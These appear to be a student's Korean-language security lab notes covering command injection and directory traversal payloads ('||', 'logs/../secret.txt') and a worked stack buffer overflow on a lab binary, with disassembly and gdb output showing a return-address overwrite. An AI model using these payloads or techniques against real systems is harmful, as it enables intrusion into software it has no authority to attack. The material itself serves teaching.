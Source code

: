 
# Lab #1

## 1-2 `list.c`
> Key Idea: Command Injection의 취약점
> '||', '&&', ';'...

## 1-3 `logger.c`
> Key Idea: Directory Traversal Attack
> "logs/../secret.txt"


# Lab #2

## 2-2 `echo2.c`
> Key Idea: scanf로 BOF를 통한 return address 수정

#### Observation

`disas echo`를 통해 `echo()`의 어셈블리 코드를 관찰하면 먼저 rsp+0x68 만큼의 Stack Section을 확보하고 시작하는 것을 알 수 있다.
그렇다는 뜻은 rsp+0x68의 위치에 return address가 있을 거라는 뜻이다.
```nasm
   0x000000000040122c <+0>:     sub    $0x68,%rsp
   0x0000000000401230 <+4>:     mov    $0x40204e,%edi
```

우리가 대체해야 할 return address의 주소는 `disas print_secret`를 통해 `0x4011a6`이라는 것을 알 수 있다.
```nasm
Dump of assembler code for function print_secret:
   0x00000000004011a6 <+0>:     push   %rbx
```

#### Attack

rsp+38에 접근하는 방법은 scanf의 취약점을 이용하여 BOF를 일으키는 것인데, scanf의 두번째에 전달하는 인자 rsi를 살펴보면 rsp+0x30을 전달하는 것을 알 수 있다.
```nasm
   0x000000000040126a <+62>:    lea    0x30(%rsp),%rsi
   0x000000000040126f <+67>:    mov    $0x402068,%edi
   0x0000000000401274 <+72>:    mov    $0x0,%eax
   0x0000000000401279 <+77>:    call   0x4010a0 <__isoc99_scanf@plt>
```

따라서 scanf에 `byte * 0x38(0x68-0x30) + return address`를 전달하면 BOF를 통해 rsp+0x68에 해당하는 공간의 값을 수정할 수 있다. (밑의 예에선 "BCDE" 전달)
```nasm
Input your second message:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCDE ("A" * 0x38 + "BCDE")

Breakpoint 1, 0x000000000040127e in echo ()
(gdb) x/14xg $rsp
0x7fffffffd6a0: 0x0000000000000a61      0x0000000000000000
0x7fffffffd6b0: 0x0000000000000000      0x0000000000000000
0x7fffffffd6c0: 0x0000000000000000      0x0000000000000000
0x7fffffffd6d0: 0x4141414141414141      0x4141414141414141
0x7fffffffd6e0: 0x4141414141414141      0x4141414141414141
0x7fffffffd6f0: 0x4141414141414141      0x4141414141414141
0x7fffffffd700: 0x4141414141414141      0x0000000045444342     # EDCB(Little Endian)
```
